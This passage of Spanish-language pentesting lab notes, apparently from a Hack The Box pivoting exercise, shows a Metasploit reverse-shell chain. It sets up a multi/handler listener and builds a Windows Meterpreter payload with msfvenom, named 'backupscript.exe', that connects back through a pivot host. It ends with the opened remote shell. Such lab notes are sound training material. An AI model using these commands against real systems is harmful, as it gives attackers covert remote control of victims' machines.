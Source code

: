 Este comando permite escuchar en un puerto específico del servidor comprometido (PIVOT HOST) y redireccionar todas las shells entrantes del servidor Ubuntu a nuestro host atacante. 
Iniciaremos un receptor en un nuevo puerto de nuestra máquina atacante y pediremos al servidor UBUNTU que redireccione todas las solicitudes recibidas por el puerto '1234' a nuestro receptor en el puerto '8081'.
Le pone el 8081 porque por ahí es por donde la máquina atacante escuchará conexiones de vuelta. Es un número arbitrario.


## Configurando y inicializando el multi/handler.
Dejamos la sesión anterior de meterpreter en background (comanod "bg")

```shell-session
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```

Ahora podemos un reverse shell-payload que enviará una conexión a nuestro servidor UBUNTU en 172.16.5.129:1234 al ejecutarse en la máquina windows (víctima). Una vez que nuestro servidor UBUNTU reciba esa conexión, la reenviará a la máquina atacante por el puerto 8081.

#### Generando el Windows Payload
```shell-session
Polika4RM@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

Generamos la reverse shell para windows y la ejecutamos en la máquina WINDOWS víctima. 


#### Estableciendo la sesión Meterpreter
```shell-session
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500

meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```
